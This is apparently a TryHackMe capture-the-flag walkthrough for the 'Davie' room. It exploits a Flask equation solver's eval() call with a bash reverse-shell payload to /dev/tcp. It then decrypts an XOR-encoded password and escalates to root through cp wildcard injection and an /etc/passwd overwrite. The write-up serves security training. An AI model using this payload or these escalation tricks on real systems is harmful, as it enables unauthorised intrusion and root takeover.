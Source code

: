 ```yaml
---
title: Davie - TryHackMe Walkthrough
date: 2024-01-21 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, python, eval, xor, privilege-escalation, tryhackme]
image:
  path: https://github.com/user-attachments/assets/22114f94-ac64-4aa0-b5a5-207e6e52dfd7
  alt: Davie Room Banner
---
```


# Davie - TryHackMe Walkthrough

*"Appearances can be deceiving, and in cybersecurity, what you see isn't always what you get."*

## Introduction

In this TryHackMe challenge, we're presented with a seemingly simple mathematical equation solver website. However, as we'll discover, there's more than meets the eye. The ability to download the source code provides us with our first clue into finding the vulnerability that will grant us initial access.

![Davie Homepage](https://github.com/user-attachments/assets/f4d7db0c-fe6e-4f2f-b293-6992889f0818)

## Initial Reconnaissance

Let's start by scanning the target machine to understand what services are running:

```bash
nmap -sC -sV -A -oN nmap_result MACHINE_IP
```

The scan reveals two open ports:
- Port 22: Running OpenSSH 8.2p1
- Port 5000: A Python web application using Werkzeug

## Gaining Initial Access

The web application's source code reveals an interesting vulnerability in the `app.py` file. The use of the `eval()` function with user input creates a dangerous situation. Here's the vulnerable code:

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

We can exploit this by injecting Python code through the `eval()` function. Here's our exploit script:

```python
import requests

url = "http://MACHINE_IP:5000"
rev_shell = "__import__('os').system(\"bash+-c+'bash+-i+>%26+/dev/tcp/10.18.11.118/9001+0>%261'\")#"
payload = f"xa={rev_shell}&xb=3"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

response = requests.post(url, data=payload, headers=headers)
```

## Lateral Movement

After gaining access as user 'bruce', we discover:
- The first flag
- A note from Gordon about an encoded password
- Sudo privileges to run `/usr/bin/python3 /opt/encrypt.py` as user 'gordon'

The encryption script uses XOR with base64 encoding. We can exploit this using a known-plaintext attack. Here's our decryption script:

```python
import base64
import sys

def cut_until_repeat(s):
    for i in range(1, len(s) // 2 + 1):
        if s[:i] * (len(s) // i) + s[:len(s) % i] == s:
            return s[:i]
    return s

def decode_string(base64_string):
    base64_bytes = base64_string.encode('ascii')
    decoded_string = base64.b64decode(base64_bytes)
    return decoded_string.decode('ascii')

def xor(password, key):
    xor = ""
    for i in range(0, min(len(password), len(key))):
        xor += chr(ord(password[i]) ^ ord(key[i%len(key)]))
    return xor

# Usage: python3 xor.py <password> <base64_string> <encrypted_secret>
```

## Privilege Escalation

As user 'gordon', we discover:
- The second flag
- A backup system that copies files from `/home/gordon/reports/` to `/home/gordon/backups/`

The backup script uses a wildcard (`*`) which we can exploit:

```bash
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

We can exploit this by:
1. Copying `/bin/bash` to the reports directory
2. Setting the SUID bit
3. Creating a file named `--preserve=mode`

After the backup script runs, we can execute the copied bash binary to get a root shell:

```bash
./bash -p
```

## Alternative Privilege Escalation Method

Another approach involves manipulating the `/etc/passwd` file:
1. Create a modified copy of `/etc/passwd` in the reports directory
2. Change gordon's UID and GID to 0
3. Create a symbolic link from backups to `/etc`
4. Wait for the backup script to overwrite the real `/etc/passwd`

## Conclusion

This machine demonstrates several important security concepts:
- The dangers of using `eval()` with user input
- Weak encryption implementations
- Wildcard injection vulnerabilities
- File permission manipulation

Remember: in cybersecurity, the most dangerous vulnerabilities are often hidden in plain sight, waiting to be discovered by those who know where to look. 